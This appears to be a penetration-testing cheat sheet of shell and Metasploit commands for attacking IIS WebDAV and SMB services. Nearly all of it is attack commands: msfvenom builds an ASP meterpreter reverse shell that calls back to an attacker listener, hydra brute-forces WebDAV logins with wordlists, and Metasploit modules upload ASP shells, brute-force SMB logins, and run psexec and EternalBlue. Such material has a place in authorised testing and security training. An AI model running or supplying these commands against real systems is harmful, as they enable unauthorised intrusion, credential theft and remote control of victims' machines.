 ```bash
# IIS WEBDAV
davtest -url <URL>
davtest -auth <USER>:<PW> -url http://<TARGET_IP>/webdav

cadaver [OPTIONS] <URL>

nmap -p 80 --script http-enum -sV <TARGET_IP>
```

```bash
msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f <file_type> > shell.asp

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f asp > shell.asp
```

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <TARGET_IP> http-get /webdav/
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler
use exploit/windows/iis/iis_webdav_upload_asp

set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

set HttpUsername <USER>
set HttpPassword <PW>
set PATH /webdav/metasploit.asp
```

### SMB

#### Nmap

```bash
nmap -p 445 -sV -sC <TARGET_IP>

nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>
```

#### Metasploit

```bash
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/smb/smb_login
use exploit/windows/smb/psexec
use exploit/windows/smb/ms17_010_eternalblue

set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false

set SMBUser <USER>
set SMBPass <PW>
```